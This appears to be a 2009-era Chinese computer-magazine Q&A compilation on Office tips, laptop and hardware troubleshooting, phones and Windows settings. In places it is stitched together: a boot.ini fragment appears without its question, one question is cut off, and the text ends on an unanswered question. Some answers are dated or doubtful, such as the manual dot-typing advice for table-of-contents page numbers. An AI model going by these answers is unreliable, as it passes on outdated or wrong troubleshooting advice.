我在使用Google Docs时，居然不能打开XLS表格，这是什么呢？答：Google Docs是支持HTML, TXT, RTF, DOC/DOCX, PPT/PPTX, PDF等格式，其中也就包括XLS/XLSX文件，只是表格文件最大只支持1MB格式。你打开的表格文件一定是太大了。

我在制作Excel表格时，想让单元格中的文字上下居中，怎么实现呢？答：右键点击单元格，选择“设置单元格格式”，选择“对齐”下的“水平居中”和“垂直居中”即可。

我在Word输入文字时，只要按下空格，就会有个小灰点，虽说打印的时候没有显示，但看着很不习惯，能去掉吗？答：按下Ctrl+Shift+8就可以解决了。

在使用Outlook Express时，我怎么设置才能在打开邮件时，即能看到收件人和发件人的地址和姓名呢？答：如果是要收件人显示名字，需要双击账号，在姓名后写好你的邮件地址就可以了。如果对方也进行了同样设置，那么你在收到邮件后，收发邮件的地址和姓名都会出现了。如果没有，那么可以将这个发信人的地址添加到Outlook Express里的地址簿中。注意在“名”后要添加好它的发件地址。另外你还可以在Outlook Express中点击“工具→选项”菜单项，勾选“发送”下的“自动将我的回复对象添加到地址簿”，这样发件人的信息就会自动添加到地址簿中。然后再“名”后添加邮件地址即可。

我有一个Excel表格，里面有很多代码，请问怎么才能显示为文字呢？答：应该是显示的公式吧？右击单元格，选择“数值→文本”即可。

我手机导出电话簿的格式为Excel的，结果现在A1列每个单元格前面都有一个序号，比如“001张三”，请问怎么样才能把前面的序号去除呢？答：你可以用mid函数来完成，在另外一个单元格中输入=mid(A1,4,3)，表示从A1单元格中的第4位开始取值，3表示取的位数。

如何在Word中画出双横线？答：输入三个等号，回车后就可以了。

如何把Excel中的单元格设置为正方形呢，用50和50这种方式出来的还是长方形？答：只要按照列宽，行高比为10比63就可以了。

比如列宽设置为10，行高就设置为63即可。

我有一个Excel表格，A1中有数千个11位的数字，B2是数千个6位的数字，请问怎么把两个单元格数字合并起来呢？比如01234567890和123456合为01234567890123456。答：如果把合并后的数据放在C列中，则在C1中输入=A1&B1即可。

我的一个Word文档，最左侧有一个文本框，打印出来后，文本框不全，请问是怎么回事？答：这是由于页面设置的问题，文本框超出了页面的版心设置所以会出现这种情况，一是你调整页面设置，扩大版心，二是把文本框的大小调整到版心内。

我有一个Excel表格，明明有数据，打印预览中也有内容，可就是一打印就是空白页，其他Excel和Word文档打印都没有问题，怎么办呢？答：遇到这种情况，你可以新建一个文档，把现在的数据复制过去，然后打印。

为什么我在Word中制作目录时，页码不能右对齐呢？答：在制作目录时，你需要手工在标题和页码之间输入“……”，让页码对齐，只有使用这种方法才能让页码出现在右边。

我在“记事本”里制作了一个表格，每个表项之间是用TAB键分割的，我现在要把它插入到Word表格中，请问有什么办法吗？答：如果是用制表符（TAB键）及逗号分隔的文本，可以直接复制到Word的表格中。只要先复制所有的文本，然后在Word中选择“表格→插入→表格”即可。

我有A、B两个PPT，从A的链接到B，在播放A的时候点击链接可以打开，这时在放映B时只要按下ESC就会退出程序，只有A在播放。而我需要按下ESC后退回到B的编辑模式。请问如何实现呢？答：你可以先在需要链接B的位置插入一个图形，然后右击图形，选择“动作设置”，设置为鼠标单击时运行程序，“浏览”文件时选择B。然后在播放时点击那个按钮，按ESC，就可以编辑B了。这时程序界面会有一个“返回幻灯片”的按钮，编辑之后，点击它就可以继续播放A了。

我要把一个Word文档和一个Excel文档粘贴到一个Word中，但只让它们显示图标，不显示具体的内容，请问怎么实现呢？答：可以通过点击“插入→对象”菜单项的方法，将要插入的文档通过这种方式插入。注意：点击插入的对象后，要在工具栏中勾选“显示为图标”项。

我用Excel在制作报表的时候，在一个有公式引用的单元格中输入了数值，但是对应的单元格并没有改变，请问这是怎么回事？答：你可以尝试点击“工具→选项→重新计算”进行重计算。另外，要注意你输入的数值是不是在英文半角的状态下，不能计算的毛病经常是由这个问题引起的。

我在Word中插入了图片，现在需要在图片上添加文字，请问如何实现？答：右击该图片，选择“添加文字”即可。或者通过文本框的方式也可以添加图片。

我的Excel表格中只有1、2、3、6、7、8行，没有的行是怎么回事呢？答：这些行是被隐藏了，点击选中第3及第6行，右击后选择“取消隐藏”即可。

我有一个文件夹，里面有大量的Word文档，在不打开文件的情况下，虽然能通过文件名、大小、创建日期、修改日期等属性判断、回忆出文件的大概内容，但是要对它们做进一步的探寻，就必须打开相应的文件才能查看到详细信息。如果该文档有很多页，想查询的信息又在最后一页，那就得花更长时间。

答：你可以通过“资源管理器”来管理，先在文件夹菜单栏的“查看”中，将此文件夹的查看方式转换成“详细信息”，再点击工具栏上的“查看→选择详细信息”，在“选择详细信息”框中将“主题”“标题”“作者”“类别”和“备注”等项，也可以同时清除“大小”“类型”“修改日期”等项的勾选。这时，我们相当于预备好了一些能根据自己需要添加信息的空篮子。然后用鼠标右键点击需要添加相关信息的Word文档名称，在弹出的菜单中点“属性”，在属性界面选“摘要”标签，我们刚才准备好的所有篮子都静静地守在这，等着你装东西（数据信息）呢。在相应的“篮子”内录入相应的信息后，确定退出，看看，那些篮子中是不是有你刚刚装进去的东西，有兴趣的朋友可以从http://work.newhua.com/cfan/200920/tywjr.rar下载制作好的文档，亲自测试。（江西/胡石）

我所在的学校给教室装上了一套多媒体（电脑+投影仪），不过，英语老师的麻烦就大了。大家都知道英语考试有完形填空的题目，高考是有20个空，这样就直接导致了在投影仪投到屏幕上的时候，不能将题目和答案一起显示，题目也就没法做了。请问有什么方法可以解决？

答：其实用“分屏”的方法就可以了，可以放一半文章，一半的选项，达到同步显示的目的。在Word的右侧滚动条上方的小三角上面，用鼠标点击后，会出现分屏线，拖动即可上下分屏。（河北/咖啡）

我在单元格中输入数字，换到其他单元格时就会自动添加小数点，比如输入10000，会变为100，输入43576，会变为435.76，请问怎么解决？

答：选择所有的单元格，右击后，选择“设置单元格格式”，点击“数字”下的“常规”项即可。

我想把PPT文档转换为SWF格式，请问有没有快速简单的处理呢？

答：WPS Office 2009的“WPS演示闪播”插件正可满足你的这一需要。启动“WPS演示”，选择“工具→插件平台”菜单项，单击“推荐插件”选项卡，然后找到并单击“WPS演示闪播”，再单击“安装”。 之后，使用“WPS演示”打开PPT演示文档。在“文件”菜单中，单击“输出为Flash格式”，设置好导出路径和播放帧率即可。（济南/王杰）

我用PPT播放幻灯片时，最后总会有一个黑屏，请问如何才能去掉这种情况？

答：启动PowerPoint，在主窗口中选择菜单中的“工具→选项”项，在弹出的“选项”窗口中切换到“视图”标签，然后取消对“以黑幻灯片结束”的勾选即可。（飞天小猪）

我有很多DOC文档，现在需要统一为它们增加页眉和页脚，主要是为了增加公司的名称，请问有没有快速的解决方案？

答：从网上下载DocAddHeadr（下载地址：http://work.newhua.com/cfan/200921/wdymyj.rar）这款软件。把要处理的DOC文档放在同一个文件夹下，然后在左侧窗口中打开此文件夹，则DOC文档自动加入右侧列表中，在“页眉内容”、“页脚内容”中分别输入内容后，单击“开始添加”，瞬间即可完成。（江苏/曾春华）

我是学校的老师，经常需要制作试卷，每次的密封线非常麻烦，请问有没有办法可以快速制作出来？

答：使用WPS可以实现。安装好WPS后，打开http://work.newhua.com/cfan/200922/wz.txt，用浏览器打开文件中的链接，就会安装“试卷密封线”插件。通过这个插件可以很轻松地制作出来了。（重庆/陈佳）

我已经把默认输入法设置为搜狗了，可进入Word后还是使用微软拼音，请问有什么方法可以实现？

答：单击左上角Office按钮，点击“Word选项”，在弹出窗口中选择“高级”，将“编辑选项”栏下面的“输入法控制处于活动状态”的勾选去除即可。注意前提是要把搜狗或者你爱用的输入法设置成默认才行。（Catme）

我想从几个PPT中收集多张幻灯片，请问有没有快速的方法，用拷贝实在太慢了。

答：以PowerPoint 2007为例，将光标定位在PPT中需要引用的位置前，切换到“开始”选项卡，单击“幻灯片”功能组中的“新建幻灯片”按钮，从下拉菜单中选择“重用幻灯片”，单击“浏览”按钮指定需要借鉴的幻灯片文稿。鼠标指向某一幻灯片会即时弹出放大的缩略图，我们只需要直接单击需要插入的幻灯片即可，如果需要保留原有的格式，请勾选“保留源格式”复选框。（江苏/王志军）

如何不让联想IdeaPad Y450本本slide bar键自动启用？

答：解决的办法是刷版本号为17CN24WW的BIOS（下载地址：http://work.newhua.com/cfan/200912/17CN24WW.rar），该程序可以在32位Windows下运行（Vista及Windows XP）。运行程序，点选Backup BIOS and Flash BIOS with new settings（备份保存BIOS后刷新BIOS并使用新的设置），然后在Specify backup file for existing BIOS（选择保存文件名及指定保存位置）中填写自定义的文件名，并单击Browse（浏览）选择保存位置。然后在Specify new BIOS file位置中，点击Browse找到新BIOS文件，之后单击Flash BIOS（刷新）即可。

笔记本显卡温度一直保持在80度以上，会有问题吗？

答：独立显卡是目前笔记本电脑中最大的热源。一般来说，独立显卡的警戒温度一般在120度左右，80度属于基本正常的状态，不会烧毁。

想升级7200转的笔记本硬盘，请问是否值得？

答：7200转笔记本硬盘目前价格在545元~610元左右，性能维持在61MB/s上下，比5400转的笔记本硬盘明显要快一些（平均在51MB/s）。另外，换装7200转笔记本硬盘后，噪音和震动会明显增加，温度一般多在45度左右，尚属可接受范围。

为什么本本不读盘了？

答：笔记本光驱的利用率现在看比较低，而长时间的携带又让激光头沾染了灰尘，所以会导致读盘不畅。解决的办法是，用易用棉签蘸无水酒精（95%以上）轻轻擦拭激光头。注意，擦拭时只准从同一方向，不要来回擦拭，防止刮伤。

最近网上有卖戴尔工厂货，能买吗？

答：所谓工厂货现在根本不存在。早前确实存在部分机型由工厂处理样机这种形式流入市场，这类产品的优势是价格便宜，品质也相差无几，但是他们都不具备戴尔提供的保修服务。而现在的所谓“戴尔工厂货”，则完全是地下工厂用原厂零件组装起来的产品，某种程度上讲就是纯正的拼装机，根本不值得购买。

联想最近推出了一款S12上网本，据说能解高清，是真是假？

答：S12上网本使用的平台与现在常见的不太一样。其处理器依然是Atom N270，但芯片组换用了NVIDIA的产品，而其集成显卡集成有高清解码的设计，所以能够实现1080P的高清电影播放。

所有上网本为什么只提供160GB硬盘的配置？

答：1GB内存、160GB硬盘几乎成了上网本的标准配置，没有任何一个厂商敢越雷池一步。这是由微软强制要求的，内存及硬盘的限制是为了不影响其他笔记本、电脑的销售（也就是不影响Vista的销售）。在购买时，可以和店铺商家商量，换购升级，尽管价格会略微贵一些，但至少可以把硬盘换大，又不会多出一个移动硬盘来，内存亦可升级到2GB（购买单条1GB内存的价格在百元内），性能会有明显改善。

电脑屏幕出现色块，如何解决？

答：电脑屏幕出现色块一般都是由显示核心引起的。如果是色斑，最大的可能性是显存过热导致，而从开机就出现色块或是色条，则更有可能是图形核心出现了故障。显示核心出现故障时没有办法修复，必须送修。显存出现问题时，如果不想送修，也可以通过降低显存运行频率，为显存加装散热模块来降低显存工作温度，缓解故障。

安装了Windows Vista操作系统的电脑上更换了处理器后，为什么“设备管理器”中的处理器信息并没有更新？

答：发生这种问题是操作系统没有检测到电脑更换了新处理器。请打开“设备管理器”，展开“处理器”项，然后右键选择“卸载”，然后单击“确定”并重新启动计算机。重启之后操作系统就会自动识别到新处理器并安装相应的驱动。

在机箱的侧面板上开洞加强散热，孔开多大才不影响屏蔽辐射？

答：在机箱侧板上开孔是可以加强散热的，但是由于考虑到电磁辐射的影响其开孔的大小也是有规定的，不能超过某一个数值，孔的周长至少要小于1/20的波长，机箱的开孔尽量小，一般在4.5mm左右。

CPU标称电压为1.7V，为何BIOS测出来是1.77V？

答：主板BIOS测出的CPU温度、电压等值，受多方面因素的影响，比如电源、主板质量、CPU个体差异等，并不一定与CPU的标称值完全一致。从你的实际情况看，应该在误差范围内，对正常使用没有影响。

降频使用是否对系统有不良影响？

答：大多数情况下CPU降频使用是没有任何危害的。你尽管放心使用。但这并不是绝对的，采用标准外频时主板PCIE, PCI总线的速度保持标准速度不变，但是如果你将CPU外频从标准降为非标准外频时，在某些主板上由于PCIE, PCI总线的速度可能高于标准频率，从而对显卡、IDE硬盘等配件造成不良影响。

## 想给本本升级硬盘，现在用的是160GB的SATA盘，速度比较慢，升级后速度有提升吗？

答：你可以考虑最新上市的笔记本硬盘，如5400转的WD3200BEVT 00ZATO单碟容量250GB，速度基本可以达到55MB/s，而7200转的希捷7200.4硬盘速度更可达到80MB/s左右，相当可观。前者的价格在380元左右，后者在520元上下(注：都是320GB容量)。需要注意的是，7200转硬盘的震动相对要大些，温度倒不是很高。

## 最近我的笔记本总是玩游戏，屏幕就会出现雪花，怎么回事？

答：这是笔记本显卡显存过热造成的缘故，过高的温度会让显存出现故障，而且这种故障只能缓解，不能修复，需要返厂维修。建议夏天用笔记本玩游戏的用户，最好配备相应的散热措施，避免这种情况发生。另外，很多人的桌面很杂乱，各种物品都堆放在桌上，容易挡住笔记本出风口，要知道，笔记本散热风扇是为CPU+北桥+显卡三者提供散热的，马虎不得。

## 我的笔记本是Thinkpad T61，看了下没有预留SIM卡插槽，我还能够升级内置的3G模块吗？

答：T61本身拥有两个mini PCI-E插槽，完全有空间安装内置的3G模块。但是，大部分T61又没有配备SIM卡插槽，所以，最省事的办法是采用中国电信的天翼通采用EVDO标准的3G方案，也就是CDMA2000。国外的EVDO内置模块统统都是机卡一体式设计（中国电信采用的是机卡分离技术）。目前这种模块的价格在200元以内就可以买到，但需要写号，搜索关键字“EVDO+写号”即可找到，必要时加上你购买的模块名称。

## Windows 7就快出来了，听说现在买本以后可以免费升级，是真的吗？

答：目前已经确认的是联想、惠普两个厂商提供免费升级服务，凡在2009年6月26日至2010年1月31日期间购买预装规定Vista版本的PC机用户均可参与Windows 7 Upgrade Option计划。其他厂商也正在积极考虑中。

## 想买个山寨上网本当下载机，不知是否可行？

答：不建议这样做，目前山寨上网本本身的质量参差不齐，故障率普遍较高。下载机最重要的就是稳定，所以不太合适。此外，笔记本硬盘本身也不适合长时间下载，笔记本硬盘大多只是支持8(小时)×5(天)的工作，并不能实现24(小时)×7(天)。

## 新购置的游戏手柄，为何时常出现延迟、没反应等现象？

答：如果排除游戏手柄本身故障，那么最可能的原因是驱动和USB接口的问题。首先下载手柄的最新版本驱动并安装，看看是否解决问题。如若问题依旧，那么接下来把手柄连接在主机背后的USB接口，并拔出无用USB设备，如果故障排除，那么就可以认为是USB接口供电不足所引起的。购买带有电源的USB HUB即可解决问题。

## 安装Vista并优化后，游戏速度大幅下降，是硬件不兼容Vista吗？

答：首先需要排除是否为病毒的原因；其次，检查系统内占用CPU的进程；如果还是不能解决问题，打开CPU-Z等软件查看CPU频率，查看Vista电源管理是否被调整为“节能程序”。需要注意的是Vista下电源管理的“节能程序”选项并不等同于Windows XP下的“最少电源模式”，它会一定量的降低CPU主频、电压等等(需CPU支持)。

## 电脑播放歌曲时杂音非常严重，几乎听不见歌曲的声音，请问这该怎么办？

答：首先更换音箱为耳机，确定是否为音箱本身的故障。晃动接口查看是否为接触不良。然后更换新版声卡驱动，查看故障是否排除。如果故障依旧，查看机箱内灰尘是否过多，积灰严重时会造成电脑莫名其妙故障的发生。

## 装机时主板少装了两三颗螺丝，对电脑影响大吗？

答：一般来说螺丝的作用只是固定，所以只要固定住影响就不大。但是因为直立机箱和固定在上面重量不小的显卡、CPU散热器，受力点太少很容易让主板弯曲变形；另外，主板固定不好很容易引起机箱振动，对硬盘的寿命也有一定的影响。所以说，不怕一万就怕万一，主板螺丝还是装全的好。

## 我买的MP4播放器在播放影片时经常会出现声音与影片脱节的现象，而且有时会死机，请问刷机可以解决这些问题吗？看到某期说CFan软件编辑将机器刷成砖头了，刷机时应该注意点什么？

答：出现影音不同步、播放速率失控的现象请先检查机器设置，用标准播放状态下是否能解决这个问题，如还有问题请检查下影片的帧速。如不是经常死机或出现程序运行错误，不建议经常刷机，毕竟还是有一定的风险。CFan软编将机器刷成了砖头原因不是操作问题，而是USB接口有些松动造成的，只要按着官方教程去做，一般不会出现这种情况。

## 看了好几期关于手机刷机的应用文章，现在想问一下，MTK手机可以自己刷机吗？在哪里找软件包什么的呢？

答：MTK系统是可以刷机的，但个人用户没有专业设备是无法进行该过程，相关的设备售价较高，可能会在一些专营修手机的地方找到。如果是品牌MTK手机可以找售后服务去处理。建议大家不要遇到一些问题便直接想到了刷机，刷新固件固然是好，但也有一定的风险，不建议新手轻易尝试。

## 请教一下国内不是使用GPRS上网吗？最近看说明书知道如果使用GPRS，那么我的手机最上边的图标应该是G↓↓，而手机使用的却是EDGE网络，图标显示的是E↓↓，而且好像不能改，请问两者有啥不同，是不是上网费会更贵？

答：它们的资费是一样的，只是上网的方式不大一样。EDGE是GPRS的改进加强协议，速度更快一些，GPRS实际速度可以达到10KB/S，而EDGE是30KB/S左右。图标显示可能是因为是手机将网络认成了EDGE数据网络所引起的，水货机经常会出现这样的问题，并不用担心。

## 请问联想ET860手机买回去GPS就能直接用吗？使用时需要支付其他什么费用吗？如服务费、数据流量的GPRS费。

答：联想ET860中内置有《灵图天行者6》导航软件，可以直接使用。使用GPS导航就像听收音机一样不会产生任何费用，但ET860内置有一个GPS快速定位功能，如果使用这个功能需要打开GPRS服务，在正式导航前手机会连接GPRS网络来下载资料，从而提高首次连接卫星的速度，所以会产生GPRS流量费。

## 玩游戏时，主板发出“嘀、嘀、嘀”三声，但是一切正常，这是什么问题？

答：一般来说长时间按住键盘4个键以上，电脑就会发出“滴滴滴”的报警声；还有一种情况是游戏或程序耗尽了系统的所有资源，处于假死的状态也会发出“滴滴”的声音，如果一切正常那么并无大碍。

## 为何新购入的Radeon HD4870安装到电脑上显示的是4800？

答：HD4870是ATI显卡中的4800系列中的一款显卡，其中包括HD4850、HD4870、HD4890等。同样的问题也出现在4600系列、3800系列和3600系列中。

## 家里常年开着加湿器，听说对显示器有影响，是这样吗？

答：这种说法严格地说并不完全准确，一般湿度保持在30%~80%之间，显示器都能正常工作。但如果使用环境湿度高于80%后，显示器内部就会产生结露现象。其内部的电源变压器和其他线圈受潮后也易产生漏电，甚至有可能造成连线短路。

因此，显示器需注意防潮，长时间不用的显示器，可以定期通电工作一段时间，让显示器工作时产生的热量将机内的潮气驱赶出去。

## 公司里的备份数据用的硬盘坏了，是不是换企业级的硬盘会可靠点啊？

答：所谓企业级硬盘，其实就是针对企业运算环境所设计的硬盘，和普通桌面硬盘的区别在于，前者需要365天×24小时的无休止运转，而后者则是按照每天8小时左右的工作负荷设计。如果公司备份用电脑要求全年不断电，那么企业级硬盘明显要有很大的优势；另外由于是备份服务器，可能储存在稳定性上要求很高，那么企业级硬盘应该优于普通桌面硬盘。

## 使用小尺寸机箱，因为硬盘比较多机箱内已经没有安装光驱的位置，如何不用USB接口还能外置光驱呢？

答：可以购买eSATA挡板，一般在网购即可。首先用SATA数据线把原生SATA接口与外置eSATA接口后面SATA母座连接好，然后再把供电输出接口连到电源的大4Pin口，内部接线即告完成。然后把eSATA附赠的1条电源线和1条eSATA线接在光驱上即可。

## 市场上的散热器花样好多，纯铝、纯铜、热管，有人说热管温度升得最快，还不如纯铝散热器，是这样吗？

答：由于热管式散热器的重量较轻热容量有限，处理器满负荷工作初期温度飙升很快，但是很快就会达到平衡状态。按散热效果由低到高排列的话，顺序是全铝<嵌铜<纯铜<热管，热管散热器可以使用更大面积的散热片、更大尺寸的风扇，合理利用机箱风道设计，以及较为便宜的价格，与传统纯铜散热器相比优势明显。

## 鼠标突然没电了，身边又没有电池，难道电脑就不能用了吗？

答：可以使用Windows自带的鼠标键，同时按下键盘上的Alt+Shift+NUM LOCK三个键，此时会弹出一个“鼠标键”窗口，点击“设置”按钮，切换到“辅助功能选项”界面，勾选“使用鼠标键”选项，并点击“设置”按钮登录到“鼠标键的设置”窗口，这时就可以用小键盘来控制光标移动了。上网、看电影问题应该不大，游戏嘛……就算了吧！

## AMD的羿龙II处理器能不能用在690G、780G等AM2主板上？

答：690G主板也无法支持AM3处理器，只能支持到65nm的Phenom多核处理器。而770、780、790等芯片组的主板，只要更新最新的主板BIOS一般都可以支持，只是浪费了羿龙II的DDR3内存控制器，性能要损失5%~10%左右。

## 新买的Acer Aspire Timeline 4810T，什么都不干CPU就100%，这是什么故障？

答：Acer Aspire Timeline 4810T及3810T, 5810T都存在CPU满载的问题。这一故障的主要原因是显卡驱动程序导致。建议用户升级显卡驱动Ver.7.15.10.1752或更高的版本即可，下载地址是http://work.newhua.com/cfan/200916/vga.zip。如果还存在问题，建议检查BIOS版本，升级到1.15版BIOS即可(3810T为1.04版)。

## 我本本的系统分区可用空间怎么越来越少？

答：系统分区中会留下很多缓存文件和垃圾文件，这会对笔记本产生影响，尤其是那些系统分区不大的本本，速度会被拖慢。解决办法是将系统内的缓存文件、垃圾文件一并删除，下载批处理命令（下载地址：http://work.newhua.com/cfan/200916/xtql.rar），解压后执行即可，Windows XP及Vista均有效。

用本本上优酷看视频怎么无法全屏播放，会有杂音出现？我是Ideapad Y450的本子。答：首先是检查笔记本内Flash Player版本，建议升级到版本10，并且，在安装好之后，随便播放一个在线视频，对着视频内容右键单击，弹出菜单选择“设置”，将“显示”中“启用硬件加速”中的勾去掉再点击关闭，故障就可以消除了。

去买上网本，商家跟我说N270是双核的，看系统里也确实是两个核心，是真的吗？答：上网本采用的Intel Atom N270处理器是一款单核心处理器，并非双核产品，Atom中只有N330才是双核产品。之所以显示是两颗核心，是因为N270支持超线程技术，可以模拟成两颗核心工作，因此任务管理器中才会显示有两个CPU，不值得相信。

我去年买了一台联想的笔记本电脑，现在看到Windows 7马上就要上市了，我能免费升级吗？答：联想日前针对操作系统升级提供了相应的服务，具体请登录http://www.lenovo.com/windows7查询，简言之，只有在2009年6月26日-2010年1月31日购买的联想PC产品才能获得升级服务，而且需要交纳约68元的升级费用。此外，戴尔及惠普都提供了类似的服务，至于细节尚未正式公布。

现在很多笔记本都支持触摸板多点触摸，老本能吗？答：不能，因为在硬件设计上存在较大区别。不过，老本本的触摸板还是可以支持两个手指滚屏的功能。第一，你本本使用的必须是synaptics触摸板（世界80%的笔记本电脑都采用这个公司的产品）。第二，下载专用软件（下载地址：http://code.google.com/p/two-finger-scroll/downloads/list），安装完毕后安装，重启电脑后，触摸板就能实现两根手指的同时操作来滚动网页或其他页面，使用起来也比原来要强不少，除了不能放大、缩小，已经很接近多点触摸的使用方式了。

[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Professional" (注：或Microsoft Vista) /noexecute=optin /fastdetect
c:\grldr="grub" (注：此为默认的解压文件所在位置)
重启系统后就能看到选项菜单，选择DOS或Windows都可以，刷新后想删除也很容易，在系统下删除boot.ini及之前解压得到的四个文件（夹）即可。

手机上网的费用究竟怎么计算的，和我用软件记录的流量不一样啊？答：手机上网无论是3G还是EDGE的2.75G，乃至CDMA 1X，不同制式不同速度的上网方式，除了按时长计费之外，全部采用双流量总和的方式，即上传+下载流量之和。所以，单独统计下载量并不准确。一般来说，上传流量与下载流量的比例在1:10左右。

我最近下载了一个视频，放在我的歌美690上播放起来有点卡，请问有解决方法吗？答：歌美660和690分别出的固件2.0和1.4版已经出现了一个调节频率的函数，通过“超频”就可以流畅播放视频了。使用方法是从http://work.newhua.com/cfan/200918/fgji.rar下载固件程序，拷入内存，然后在“应用程序”中直接运行即可（如出现花屏死机重启即可）。需要注意的是超频后，MP4的续航时间会减少。

我的N95最近用着用着发现，电话本里有一两个联系人不显示姓名了，怎么办？答：造成这种情况可能是同一个号码被存储成两个人的缘故，名片夹中同一个号码不能被两个同名字的人拥有，如果有同名的，一定要再加个数字或字符区别，建议你检查一下。

最近看到有人卖诺基亚E66，价格只要880元，而且说是100%高仿，能买吗？答：所谓的这种100%高仿E66实际用的是诺基亚8800主板（翻修或外流）加E66外壳拼装而成。使用时你不会感觉到任何不妥，但时间久了或多或少都会存在小毛病，而且基本无法维修，因为本身这些仿造机大多是翻修主板制造的，质量上极不可靠。

我的数码相机用的SD卡插入电脑提示未格式化，然后选择格式化也不行了，怎么办？答：可以试试在系统开始菜单选择的“运行”，输入chkdsk X:/R，其中X是你SD卡的盘符。注意，这个方法只对FAT/FAT32格式的SD卡有效。

新买了一个华硕本本，想看精确的电量显示，有办法吗？答：可以使用BatStats来显示精确电量，国内逸饭论坛有相关的汉化软件，下载BatStats（下载地址：http://work.newhua.com/cfan/200919/BatStats.rar），安装完毕后运行，双击任务栏中BatStats的图标，然后选择“选择配置”设置好自己的电池即可。另外这个软件也可用于其他笔记本电脑，但要用自定义方式设置电池规格信息。

我新买的本本号称是16:9屏幕，怎么看电影还是有黑边？答：现在大量笔记本采用16:9的屏幕比例，而不是16:10，并在宣传上宣称“看电影无黑边”，其实并不完全对：电影目前分为两种主流比例规格，一种是16:9，但更多的是采用2.75:1，现在后者占绝对主流的位置。因此，无论是16:9还是16:10的屏幕比例，在播放2.75:1比例规格的电影时，都会有黑边，但无疑16:9的屏幕黑边要小很多。其实，黑边存在的意义还是很大的，这样可以有字幕的显示空间，而不用重叠在实际电影画面上。

我本本最近老是画面定格就死机了，而且有大色块，什么问题？答：如果出现这种情况，最大可能是显卡核心过热造成死机。如果是画面出现雪花，则是显存过热。另外，如果出现色带、屏幕断裂的情况，最大的可能性是显卡驱动存在兼容性问题。针对你的情况，只能送修更换显示核心乃至整个主板了。

我的台式机已经用了三年了，想扩充一下内存，但好像区分不同的规格？答：2007年前后的机型已经开始向DDR2转型了，但也不排除你购买的机型采用DDR内存。建议你用CPU-Z查看一下，就能知道了（下载地址：http://www.onlinedown.net/soft/2775.htm）。另外，DDR内存价格目前要高于DDR2内存近2倍，而且也都是停产产品，买到全新的几乎不可能了，如果有人给你推荐全新的DDR内存，可不要上当。

我的SL400怎么不能看高清？答：Thinkpad SL400的显卡芯片是完全可以支持高清影片播放的，但需要进行一些设置。如使用完美解码、终极解码播放器时，设置解码模式，分别将“视频渲染器”设置为“EVR增强型渲染（C/A）”，VC-1视频解码器设置为“Microsoft”，前者针对h.264编码的高清电影，后者针对VC-1编码高清电影，在播放时，就能完全利用显卡硬件解码了。

现麦克风是坏的？答：首先，下载惠普CQ35笔记本电脑的声卡驱动程序（下载地址：http://h50176.www5.hp.com/support/N2074PA/more_info_soar_ob-69554-1.html）并安装。安装完毕后打开设备管理器，选择IDT声卡右键更新驱动程序，选“否，暂时不”，下一步后选“从列表或指定位置安装”，选择“不要搜索。我要自己安装”并点击“从磁盘安装”，找到C盘目录下，C:\SwSetup\SP42717\WDM\Vista\STWRT.inf强制安装。重新启动，这时声卡没有声音，但是控制面板里多了一个IDT Audio控制面板。再选择声卡，第二次强制安装到C:\SwSetup\SP42717\WDM\Xp\STHDA.inf。重新启动，这时声卡可以用了，但还没有声音。重启后，打开控制面板中的“IDT Audio控制面板”，找到“首选项→设置→常规→电源”项，选中“启用电源管理功能”，关闭“外部放大器电源”即可。

我的本本最近突然在屏幕上出现一条红线，很细，怎么也消不掉？答：这很有可能是屏线的某一条线断裂损坏导致，这种情况必须送修。

最近看中了一台明基的U121上网本，尺寸比普通的大了许多，CPU是Atom Z520，不是常见的N270，想问下这个CPU怎么样？答：Atom平台CPU有两种，一种是N系列，专门针对上网本，Z系列则是针对MID（掌上电脑）的处理器。Z系列处理器的功耗更低，待机时间会更长，但是它的处理性能不佳。之所以有超过11英寸的上网本，是厂商针对Intel的限制作出的策略——Intel不允许Atom N系列处理器的产品出现在超过10.1英寸的机型上。

我的笔记本用VGA输出通过转接头连接显示器的DVI口，发现没有最佳分辨率，为什么？答：这和部分线缆的兼容性有关系，建议你更换一根VGA线试试。注意，并不是高品质的VGA线材就不存在这个问题！

我的T400想升级内存，现在看DDR2还是相对DDR3的便宜，能用吗？答：尽管T400的GM45芯片组的确也支持DDR2内存，但该机型设计时只采用了DDR3内存插槽，所以物理上不兼容（针脚定义、数量、电压都不相同），所以不可能安装使用DDR2内存。

新买的微星U100上网本，想再买根2GB内存，不知道可以么？答：微星U100上网本板载了1GB内存，而芯片组的限制是上网本最大只能使用2GB内存，因此，你购买2GB内存后只能使用其中的1GB，总量不会超过2GB。

新买的移动硬盘，插到别人的本上就正常，接到自己本上就显示“未知USB设备”？答：有两种可能，第一种可能是你的本本USB接口供电不足，第二种情况是线材的兼容性问题。建议先更换一根线缆试一下，如果还是出现这个问题，就需要考虑更换一个移动硬盘盒了（注：部分移动硬盘盒所用主控芯片对电压要求极为严格，如Cypress等）。

我想用笔记本接家里的功放做HTPC，但不知道音频怎么接，求解？答：笔记本音频输出时，最佳解决办法是使用光纤输出。从2008年之后出品的绝大部分机型都是Line-Out（音频输出）+SPDIF（光纤输出）的混合接口，你可以用光纤输出到功放，通过功放连接音箱。如果你没有功放，也只有有源X.1音箱，也可以考虑使用USB软声卡连接。但要注意，这种USB软声卡是软件模拟多声道输出的（特殊的高价产品除外）。

新装了Windows 7在我的本本上，但老有爆音问题，换回Windows XP就没事，为什么？答：这是因为Windows 7的声音设置服务导致的问题，解决方法是点击“开始→菜单”，输入regedit回车，定位到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Audiosrv]项上，然后双击右侧的DependOnService项，删除MMCSS，保存退出。重启电脑后，在“控制面板→管理工具→计算机管理→服务”中找到“Multimedia Class Scheduler”，将其“启动类型”设置为“禁用”即可。

## 我新买的台式机怎么不能用闪盘启动？

答：目前所有的本本BIOS中都提供了闪盘启动功能，只不过这与闪盘本身有关。如果它没有加载启动项，那自然不会成功。你可以使用诸如系统维护PE盘闪盘安装版、HP闪盘低格程序等为闪盘创建启动文件。此外，BIOS上的设置建议使用模拟USB-ZIP方式，这个方式的兼容性最好。

## 我想用本本+多媒体音箱组成简单的多声道家庭影院该怎么做？

答：笔记本的音频输出接口只支持2声道，最好的解决方法是通过光纤输出方式组建。本本开机后，看看音频输出接线孔是否有红色光线，如果有证明本本可以实现光纤输出。这时你还需要一个解码器，组成“笔记本→解码器→多媒体音箱”的连接方式。因为光纤输出的只是信号，需要解码器进行解码后才能输出给多媒体音箱。

## 新买的Acer 4810TG装Windows 7怎么那么热？

